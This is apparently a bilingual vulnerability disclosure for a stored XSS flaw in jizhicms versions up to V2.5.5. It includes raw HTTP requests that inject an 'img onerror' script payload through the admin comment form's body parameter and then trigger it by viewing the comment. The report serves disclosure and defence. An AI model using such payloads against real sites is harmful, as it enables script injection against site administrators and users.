





# jizhicms<=V2.5.5-Comment/addcomment.html-bodyparameter-Storage XSS

## Supplier

https://www.jizhicms.cn/

## Description

jizhi CMS aims to help netizens solve the troubles of using Ultimate CMS and the difficulties encountered in daily website building. Storage XSS exists

## POC

在互动管理-评论列表-添加评论

In Interactive Management - Comment List - Add Comment

After clicking on 'add' and capturing the package, it was found that the addition was successful

```
POST /index.php/admins/Comment/addcomment.html HTTP/1.1
Host: 192.168.24.65:1002
Content-Length: 175
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.24.65:1002
Referer: http://192.168.24.65:1002/index.php/admins/Comment/addcomment.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; PHPSESSID=71ui30k1t81pk650ath51bu9bh
Connection: close

go=1&userid=&tid=0&aid=&zid=&pid=&body=%3Cp%3E%26lt%3Bimg+src%3D1+onerror%3Dalert(1)%26gt%3B%3C%2Fp%3E&reply=&ismsg=0&likes=0&isread=0&isshow=1&addtime=2025-11-13+15%3A46%3A36
```

添加成功后点击查看，发现XSS成功触发

After successfully adding, click to view and it was found that XSS was triggered successfully





请求包：

```
GET /index.php/admins/Comment/editcomment/id/1 HTTP/1.1
Host: 192.168.24.65:1002
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://192.168.24.65:1002/index.php/admins/Comment/editcomment/id/2.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; PHPSESSID=71ui30k1t81pk650ath51bu9bh
Connection: close
```



## version

Vulnerabilities affect versions


jizhicms<=V2.5.5
